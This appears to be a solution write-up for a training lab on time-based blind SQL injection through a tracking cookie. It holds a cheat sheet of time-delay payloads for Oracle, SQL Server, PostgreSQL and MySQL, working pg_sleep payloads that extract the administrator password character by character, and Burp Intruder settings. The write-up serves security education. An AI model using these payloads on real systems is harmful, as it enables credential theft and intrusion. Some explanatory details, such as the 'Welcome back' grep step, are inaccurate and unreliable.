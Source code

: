 # Lab: Blind SQL injection with time delays and information retrieval
## Lab

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind __SQL injection__ vulnerability to find out the `password` of the `administrator` user.

To solve the lab, log in as the `administrator` user. 

## Hint

You can find some useful payloads on our SQL injection cheat sheet. 

## Solution

When a request containing a `TrackingId` cookie is processed, the application determines whether this is a known user using an SQL query like this: 
```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```
Because SQL queries are generally processed synchronously by the application, delaying the execution of an SQL query will also delay the HTTP response. This allows us to infer the truth of the injected condition based on the time taken before the HTTP response is received. 

From cheat sheet we fuzz payload:
|SQL Server |Payload                                                                                                                                        |
|-----------|-----------------------------------------------------------------------------------------------------------------------------------------------|
|Oracle     |<code>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'&#124;&#124;dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual            </code>|
|Microsoft  |<code>IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'                                                                                   </code>|
|PostgreSQL |<code>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END                                                     </code>|
|MySQL      |<code>SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')                                                                                      </code>|

We have payload:
`'||(SELECT CASE WHEN ((SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a') THEN pg_sleep(3) ELSE pg_sleep(0) END)--`

The query like this:
```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'||(SELECT CASE WHEN ((SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a') THEN pg_sleep(3) ELSE pg_sleep(0) END)--'  
```
If the length of password greater than 1, the time of HTTP response is greater than 3 seconds.

Continue to increase the length to 2, 3, 4, ... until the time of HTTP response isn't greater than 3 seconds, this number is the password length we look for.

Increase length to 20 (LENGTH(password) > 20) the time of HTTP response isn't greater than 3 seconds. So password length is 20.

After determined length of password we brute force value of each character in each index of password. To do that we need use `SUBSTRING()` function:
`'||(SELECT CASE WHEN ((SELECT 'a' FROM users WHERE username='administrator' AND SUBSTR(password,1,1)>'a')='a') THEN pg_sleep(3) ELSE pg_sleep(0) END)--`
To put it simply `SUBSTRING(string,index,length)` function extract `string` from `index` with `length` is number of characters. Addition condition above take first character in password compare with character 'a', if the first character of password is 'a' the time delay is 3 seconds. But no one does it manually :v
Send this request into Intruder and modify payload:
`'||(SELECT CASE WHEN ((SELECT 'a' FROM users WHERE username='administrator' AND SUBSTR(password,1,1)>'a')='a') THEN pg_sleep(3) ELSE pg_sleep(0) END)--`
When the query like this:
```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '7gTCiXoIdLi8ksjO'||(SELECT CASE WHEN ((SELECT 'a' FROM users WHERE username='administrator' AND SUBSTR(password,1,1)>'a')='a') THEN pg_sleep(3) ELSE pg_sleep(0) END)--'
```

And select attack type is Cluster bomb.The first payload type is numbers from 1 to 20 and step is 1, the second payload type is simple list and we add characters a-z and 0-9, combimed with rep _Welcome back_ in tab Options.

> administrator - 0lubt1uzmvmrc9gezn7y